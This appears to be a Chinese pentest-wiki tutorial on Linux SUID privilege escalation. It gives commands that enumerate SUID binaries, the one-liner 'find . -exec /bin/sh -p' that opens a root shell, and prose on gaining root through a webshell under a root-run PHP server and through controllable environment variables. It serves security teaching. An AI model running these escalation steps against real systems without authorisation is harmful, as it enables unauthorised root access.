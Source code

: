 # SUID

SUID可以让调用者以文件拥有者的身份运行该文件, 当在渗透过程中发现带有其他用户SUID权限的可执行文件服务或进程时，可以利用存在错误的权限配置获取其他用户或ROOT的权限

## 可执行文件提权

```sh
find / -user root -perm /4000 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -type f -name '*.txt' 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {}; > /tmp/suid
getcap -r / 2>/dev/null
```

![image-20220531145004731](/assets/PeiQi-Wiki/img/image-20220531145004731.png)

创建新的用户 `user1`，使用 Root用户给 find命令加上 SUID权限，当登陆 user1 查看该命令时，可执行文件所有者为 Root，当 `user1` 调用该命令时，实际调用身份为 `Root`

```sh
user1@i-v0nrmv9j:~$ ls /usr/bin/find -all
-rwsr-xr-x 1 root root 199304 Oct 31  2018 /usr/bin/find
```

 <a-alert type="success" message="" description="Linux 提权工具: https://gtfobins.github.io/" showIcon>
</a-alert>
<br/>



![image-20220531150723350](/assets/PeiQi-Wiki/img/image-20220531150723350.png)

```sh
find . -exec /bin/sh -p \; -quit
```

![image-20220531151918257](/assets/PeiQi-Wiki/img/image-20220531151918257.png)

## 服务相关提权

SUID权限与Web服务相关时, 这里以Root用户开启一个PHP Web服务器

![image-20220531152916676](/assets/PeiQi-Wiki/img/image-20220531152916676.png)

![image-20220531153303027](/assets/PeiQi-Wiki/img/image-20220531153303027.png)

这里的PHP Web服务由于是Root权限开启的进程，我们可以通过在该Web目录写入 Webshell 命令执行获取Root权限

![image-20220531153753534](/assets/PeiQi-Wiki/img/image-20220531153753534.png)

## 利用变量提权

部分脚本中存在获取系统变量来执行时，如果变量可控且为SUID，我们就可以通过该脚本获取Root权限

![image-20220531171136888](/assets/PeiQi-Wiki/img/image-20220531171136888.png)

这里简单编写了一个例子，使用 env 中的变量 cmd 来执行命令 /bin/sh 获取可交互 Shell `(真实渗透中只需要注意SUID权限的可执行脚本是否有可控ENV变量)`

![image-20220531171451027](/assets/PeiQi-Wiki/img/image-20220531171451027.png) 